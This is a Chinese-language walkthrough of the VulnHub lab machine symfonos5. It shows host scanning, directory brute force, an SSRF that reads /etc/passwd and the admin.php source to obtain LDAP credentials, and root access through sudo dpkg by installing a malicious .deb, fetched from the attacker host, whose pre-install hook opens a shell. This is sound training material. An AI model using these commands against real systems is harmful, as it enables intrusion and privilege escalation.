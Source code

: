 # symfonos5-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-5,415/

**Description**

Beginner real life based machine designed to teach people the importance of understanding from the interior.

Tested on VMware and Virtualbox

**知识点**
- ssrf
- ldap
- dpkg 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.151` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.151
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/2.png)

SSH、web、ldap,ldap 一般比较少见,先从熟悉的 web 开始把

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/3.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/4.png)

老样子,啥都没有,爆破目录,字典自 https://github.com/ffffffff0x/AboutSecurity/blob/master/Dic/Web/Directory/fast-scan.txt
```bash
./gobuster dir -u 192.168.141.151 -w fast-scan.txt
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/5.png)

访问下这个 admin.php 和 home.php

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/6.png)

home.php 会将我重定向到 admin.php,看看 html 源码

```
curl http://192.168.141.151/home.php
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/7.png)

这个熟悉的 127.0.0.1 看上去是 ssrf 啊,读文件试试

# 中期-漏洞利用

```
curl http://192.168.141.151/home.php\?url\=file:///etc/passwd
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/8.png)

尝试读 admin.php 的源码
```
curl http://192.168.141.151/home.php\?url\=file:///var/www/html/admin.php
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/9.png)

看上去是 LDAP 的凭证。

ldap管理工具有 ldapadmin，JXplorer 等,这里就用 ladpadmin 测试了

访问 https://sourceforge.net/projects/ldapadmin/ 下载安装包,我下的是windows版的,就不演示 linux 平台了

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/10.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/11.png)

连接后可以看到有个 zeus 用户和其密码

SSH 连接上去,寻找提权的方法

---

# 后期-提权

```
sudo -l
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/12.png)

dpkg 以 root 权限运行,上 https://gtfobins.github.io/ 找下 dpkg 相关的内容

在 kali 上运行
```
gem install --no-document fpm
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF

python -m SimpleHTTPServer 8080
```

完成后靶机下载POC
```
wget 192.168.141.134:8080/x_1.0_all.deb
sudo dpkg -i x_1.0_all.deb
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/symfonos/symfonos5/13.png)

提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup
